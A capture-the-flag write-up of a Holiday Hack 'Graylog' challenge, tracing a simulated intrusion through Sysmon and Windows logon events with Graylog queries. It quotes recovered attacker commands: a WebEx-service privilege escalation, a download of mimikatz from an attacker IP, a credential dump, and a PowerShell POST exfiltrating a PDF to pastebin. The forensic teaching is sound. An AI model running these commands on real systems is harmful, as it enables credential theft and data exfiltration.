

Graylog
üéÆ Graylog¶
üìç The dorm
üßùü誂Äç‚ôÇÔ∏è Pepper Minstix
It's me - Pepper Minstix.
Normally I'm jollier, but this Graylog has me a bit mystified.
Have you used Graylog before? It is a log management system based on Elasticsearch, MongoDB, and Scala.
Some Elf U computers were hacked, and I've been tasked with performing incident response.
Can you help me fill out the incident response report using our instance of Graylog?
It's probably helpful if you know a few things about Graylog.
Event IDs and Sysmon are important too. Have you spent time with those?
Don't worry - I'm sure you can figure this all out for me!
Click on the All messages Link to access the Graylog search interface!
Make sure you are searching in all messages!
The Elf U Graylog server has an integrated incident response reporting system. Just mouse-over the box in the lower-right corner.
Login with the username elfustudent and password elfustudent.
Graylog
Event IDs and Sysmon
(Events and Sysmon)
Complete Incident Response Report questions
‚ö°Ô∏è Solution¶
-
Login to graylog server with the username
elfustudentand passwordelfustudent. -
Check ElfU Graylog Incident Response Report from right-bottom corner or from this Link
-
Select
All messagesstream to search and make sure to selectsearch in all messageat upper-left corner:
Question 1¶
What is the full-path + filename of the first malicious file downloaded by Minty?
Minty CandyCane reported some weird activity on his computer after he clicked on a link in Firefox for a cookie recipe and downloaded a file.
We can find this searching for sysmon file creation event id 2 with a process named firefox.exe and not junk .temp files. and use regular expressions to include or exclude patterns.
Search query:
minty AND EventID:2 AND ProcessImage:/.*firefox.*/ NOT TargetFilename:/.*\.temp/
mintythe name of the user account.
EventID:2A process changed a file creation time. The change file creation time event is registered when a file creation time is explicitly modified by a process.1
AND ProcessImage:/.*firefox.*/Check for events for Firefox app .
NOT TargetFilename:/.*\.temp/Exclude temp folder from search.
The answer
C:\Users\minty\Downloads\cookie_recipe.exe
Question 2¶
What was the ip:port the malicious file connected to first?
The malicious file downloaded and executed by Minty gave the attacker remote access to his machine.
We can pivot off the answer to our first question using the binary path as our ProcessImage.
Search query:
EventID:3 AND ProcessImage:/.*cookie_recipe.exe/
EventID:3Network connection.
The network connection event logs TCP/UDP connections on the machine. Each connection is linked to a process through the ProcessId and ProcessGUID fields. The event also contains the source and destination host names IP addresses, port numbers and IPv6 status.
ProcessImage:/.*cookie_recipe.exe/Check for events by the processcookie_recipe.exe.
The answer
192.168.247.175:4444
Question 3¶
What was the first command executed by the attacker?
(answer is a single word)
Since all commands sysmon event id 1 by the attacker are initially running through the cookie_recipe.exe binary, we can set its full-path as our ParentProcessImage to find child processes it creates sorting on timestamp.
Search query
ParentProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe.exe
OR We can follow the previous question result and use timestamp to search surrounding events for example 30 seconds and also include Commandline
-
Select
Show surrounding messages>30 seconds -
Add
ParentProcessImage:/.*cookie_recipe.exe/to check for events where the parent process iscookie_recipe.exe. -
Add
_exists_:CommandLineto lookup for events with CommandLine. -
Select
CommandLineandParentProcessImagefrom left panel to show them
Search query:
source:"elfu\-res\-wks1" AND gl2_source_input:"5defd222adbe1d0012fab8ca"AND ParentProcessImage:/.*cookie_recipe.exe/ AND _exists_:CommandLine
Sort result by timestamp to see the result in time order:
The answer
whoami
Question 4¶
What is the one-word service name the attacker used to escalate privileges?
Continuing on using the cookie_reciper.exe binary as our ParentProcessImage, we should see some more commands later on related to a service in the previous question result if you follow the events in time order:

What initially got our attention is that webexservice launched by the malicious executable that even though this service is designed to update WebEx, it could also be used to launch other programs.
C:\Windows\system32\cmd.exe /c "sc start webexservice a software-update 1 wmic process call create "cmd.exe /c C:\Users\minty\Downloads\cookie_recipe2.exe" "
As the service is running under the System account, any executable launched by it would be launched with the same permissions. The WebexService service does not automatically start when Windows starts. Instead, it is called as necessary to perform an update of WebEx, or in this case, other programs. It's known Unusual Remote Execution Bug in Cisco WebEx Discovered by Researchers.
The answer
webexservice
Question 5¶
What is the file-path + filename of the binary ran by the attacker to dump credentials?
As we read the events in timestamp order, next we see attacker downloaded cookie_recipe2.exe using Invoke-WebRequest cmdlet then the attacker elevates privileges using the vulnerable webexservice to run a file called cookie_recipe2.exe. Let's use this binary path in our ParentProcessImage search.
ParentProcessImage:/.*cookie_recipe2.exe/
We notice that the attacker downloaded Mimikatz tool which known for exploit security flaws and gather credentials. And he renamed it to cookie.exe and saved at C:\cookie.exe
C:\Windows\system32\cmd.exe /c "Invoke-WebRequest -Uri http://192.168.247.175/mimikatz.exe -OutFile C:\cookie.exe "
Then run sekurlsa::logonpasswords command to dump credentials which known for mimikatz tool to output all of passwords stored on the machine
C:\Windows\system32\cmd.exe /c "C:\cookie.exe "privilege::debug" "sekurlsa::logonpasswords" exit "
The answer
C:\cookie.exe
Question 6¶
Which account name was used to pivot to another machine?
The attacker pivoted to another workstation using credentials gained from Minty's computer.
Windows Event Id 4624 is generated when a user network logon occurs successfully. We can also filter on the attacker's IP using SourceNetworkAddress.
Search query:
SourceNetworkAddress:192.168.247.175 AND EventID:4624
Use left panel to show different Fields from the events
Directly we know which account was used.
The answer
alabaster
Question 7¶
What is the time ( HH:MM:SS ) the attacker makes a Remote Desktop connection to another machine?
Search using LogonType 10 which mean RemoteInteractive when you access a computer through Terminal Services, Remote Desktop or Remote Assistance.
Search query:
SourceNetworkAddress:192.168.247.175 AND LogonType:10
The answer
06:04:28
Question 8:¶
What is the SourceHostName, DestinationHostname, LogonType of the following connection?"
The attacker navigates the file system of a third host using their Remote Desktop Connection to the second host. (submit in that order as csv)
The attacker has GUI access to the host elfu-res-wks2 via RDP. They likely use this GUI connection to access the file system of third host using explorer.exe via UNC file paths (which is why we don't see any cmd.exe or powershell.exe process creates).
However, we still see the successful network authentication for this with event id 4624 and logon type 3.
Using LogonType 3 which in most cases when you access a computer from elsewhere on the network. over-the-network logons are classed as logon type 3. and Event ID 4624 an account was successfully logged on. Search query:
SourceHostName:ELFU\-RES\-WKS2 AND LogonType:3 AND EventID:4624
The answer
elfu-res-wks2,elfu-res-wks3,3
Question 9¶
What is the full-path + filename of the secret research document after being transferred from the third host to the second host?
We can look for EventID:2 sysmon file creation event , and set the source machine elfu-res-wks2 , also use regex to filter out overly common file paths using something like:
EventID:2 AND NOT TargetFilename:/.+AppData.+/ AND NOT TargetFilename:/.+ProgramData.+/ AND source:elfu\-res\-wks2
The answer
C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf
Question 10¶
What is the IPv4 address (as found in logs) the secret research document was exfiltrated to?
We can look for the original document in CommandLine using regex with the document name super_secret_elfu_research.pdf.
Search query:
super_secret_elfu_research.pdf
The attacker used Invoke-WebRequest cmdlet to post the file to a remote URL of https://pastebin.com/post.php.
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri https://pastebin.com/post.php -Method POST -Body @{ "submit_hidden" = "submit_hidden"; "paste_code" = $([Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf"))); "paste_format" = "1"; "paste_expire_date" = "N"; "paste_private" = "0"; "paste_name"="cookie recipe" }
We can pivot off of this information to look for a sysmon network connection id of 3 with a source of elfu-res-wks2 and DestinationHostname of pastebin.com.
DestinationHostname:pastebin.com AND EventID:3 AND source:elfu\-res\-wks2
The answer
104.22.3.84
You have completed the Graylog challenge! üéâ
üéì What you've learned¶
- Searching through logs using Graylog.
- Sysmon event id
- Logon types
- Tracing malicious Files and attacks locally and over network
- WebEx vulnerability
-
https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4624 http://techgenix.com/logon-types/ ↩
-
https://blog.skullsecurity.org/2018/technical-rundown-of-webexec https://srcincite.io/blog/2018/12/03/webexec-reloaded-cisco-webex-meetings-desktop-app-lpe.html https://www.bleepingcomputer.com/news/security/unusual-remote-execution-bug-in-cisco-webex-discovered-by-researchers/ ↩